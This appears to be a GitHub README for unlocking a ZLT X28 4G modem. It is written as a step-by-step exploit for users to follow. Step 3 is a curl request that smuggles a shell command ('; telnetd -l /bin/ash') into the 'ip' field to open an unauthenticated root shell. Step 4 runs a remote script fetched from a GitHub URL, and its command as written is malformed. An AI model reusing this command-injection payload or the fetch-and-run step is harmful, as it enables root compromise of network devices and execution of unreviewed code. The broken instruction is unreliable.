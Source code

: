 <!-- README.md -->

# 🔓 ZLT X28 | ZLT X28 Modem Unlock

---

### ✨ ZLT X28 Modem Unlock & Custom Admin Panel
![](img/zlt.jpg)


### 📊 Device Specifications

| Model | Software Version |
|------------|----------------|
| ZLT X28    | 1.5.13         |

---
## Overview  
The ZLT X28 modem is based on a customized snapshot of [OpenWrt](https://www.google.com/search?q=OpenWrt). Unlocking this modem is straightforward but requires access to another modem (any brand or model) with an active internet connection.  

## Prerequisites  
- A second modem with internet access  
- LAN cable  
- Basic command-line knowledge  

## Step 1: Obtain `sessionId`  
Before anything else, you need to extract the ‍`sessionId`.  

Open your browser’s **Developer Tools**. The default shortcuts are:  

- **Windows/Linux**:  
  - `F12` → Opens the last used developer tools panel  
  - `Ctrl + Shift + I` → Opens developer tools  
  - `Ctrl + Shift + J` → Opens the Console panel  
  - `Ctrl + Shift + C` → Opens the Elements panel  

- **macOS**:  
  - `Option + Command + I` → Opens developer tools  
  - `Option + Command + J` → Opens the Console panel  
  - `Option + Command + C` → Opens the Elements panel  

- **Other methods**:  
  - Right-click any element → **Inspect / Inspect Element**  
  - Safari: Enable the Developer menu in **Preferences > Advanced**, then use **Develop > Show Web Inspector**.  

Inside Developer Tools, switch to the **Network** tab, select any request, and copy the `sessionId` value. Save it for later use.  

![](img/sessionId.png)

## Step 2: Enable WAN  
Connect a LAN cable from the internet-enabled modem to **Port 1** of the ZLT X28. This step is mandatory to activate **DMZ**, which cannot be enabled otherwise.  

Next, activate **WAN** on the ZLT X28 as shown below:  

![](img/enable-wan.png)

You can also enable WAN with this command and replacing `sessionId`.
```bash
curl 'https://192.168.70.1/cgi-bin/http.cgi' -X POST --data-raw '{"method":"POST","cmd":302,"LinkMode":"linkIP","IpVersion":"IPV4","IpMode":"dhcp","MTU":1500,"MRU":"","IpAddr4":"","Submask4":"","Gateway4":"","FirstDns4":"","SecDns4":"","NatEnable":"1","UserName":"","PassWd":"","priorityStrategy":"1","uisMode":"0","networkMode":"2","wifiMode2":"0","wifiMode5":"0","MacClone":"","vlanId":"","Dhcpv6Mode":"Yes","IpAddr6":"","IpAddr6Len":"","Gateway6":"","FirstDns6":"","SecDns6":"","wanRouter":"1","apnRouter0":"0","apnRouter1":"0","apnRouter2":"0","apnRouter3":"0","wifi2Router":"0","wifi5Router":"0","token":"cd55e4e9b9e941b0bf949db815d104d9","language":"EN","sessionId":"<YOUR_SESSION_ID>"}' -k

```

## Step 3: Enable Telnet  
Run the following command from your system’s terminal, replacing the placeholder `sessionId` with the one you retrieved earlier:  

```bash
curl 'https://192.168.70.1/cgi-bin/http.cgi' \
--data-raw '{"enabled":"1","ip":"192.168.1.1 ; telnetd -l /bin/ash","cmd":172,"method":"POST","success":true,"subcmd":6,"token":"5948b69147b3850eee5e7266188934c5","language":"EN","sessionId":"<YOUR_SESSION_ID>"}' -k
```

After this, Telnet will be enabled. Connect using:

```bash
telnet 192.168.70.1
```
## Step 4: Execute Unlock Script

Once inside Telnet, run the following command:
```bash
sh $(https://github.com/mahdigh782/Unlock-ZLT-X28/raw/refs/heads/main/x28)
```
The modem will restart after a few seconds. Once it powers back on, it will be unlocked.

## Donations

If you found this useful, you can support development via TRON (TRX):

💠 Wallet Address: TXDhVJDtkBUq2KN3QYZW4zDtkJkLLwFVgb


### 📞 Contact
📬 Telegram: @zlt_x28_unlock
---

#ZLT_X28 #Modem_Unlock #Admin_Panel_Access #Custom_Modem_UI #Firmware_Upgrade #4G_Modem_Unlock #Network_Unlock_ZLT #ZLT_Admin_Unlock


